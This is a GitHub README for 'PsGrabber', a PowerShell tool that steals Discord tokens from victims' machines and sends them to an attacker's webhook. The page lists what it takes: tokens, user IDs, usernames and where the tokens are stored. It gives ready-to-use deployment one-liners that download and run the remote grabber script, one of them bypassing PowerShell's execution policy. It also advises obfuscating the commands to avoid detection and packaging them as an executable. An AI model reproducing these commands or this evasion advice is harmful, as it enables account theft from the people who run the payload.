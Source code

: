 ![Logo](https://i.ibb.co/Vtx5jqF/Capture.png)

    
# PsGrabber
A Discord token grabber that exfiltrates tokens to a webhook written in powershell



<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#features">Features</a>
    </li>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
    <ul>
        <li><a href="#authors">Authors</a></li>
    </ul>
  </ol>
</details>


## Features

- Inbuilt token checker
- All data sent through a webhook
- Provives userID of tokens found
- Provides token type
- Provides the usernames of the tokens stolen
- Gives information on where the tokens stolen are stored

## Deployment

To effectivly deploy this project, choose one of these steps\
To avoid detection, the following commands should be Encoded using [Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)


#### Define HookUrl and use the payload as a powershell script
```powershell
$hookurl='';iex((iwr https://raw.githubusercontent.com/TheRedBladeClan/PSGrabber/main/PSGrabber.ps1).content)
```

#### Convert to batch and then convert into an exe using a third party program
```batch
powershell.exe -NoProfile -ExecutionPolicy bypass -Command "$hookurl='';iex((iwr https://raw.githubusercontent.com/TheRedBladeClan/PSGrabber/main/PSGrabber.ps1).content)"
```

## Acknowledgements

 - danielbohannon for The [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) used in the program
  


## Authors

- [@MattOverthow](https://github.com/MattOverthrow/)
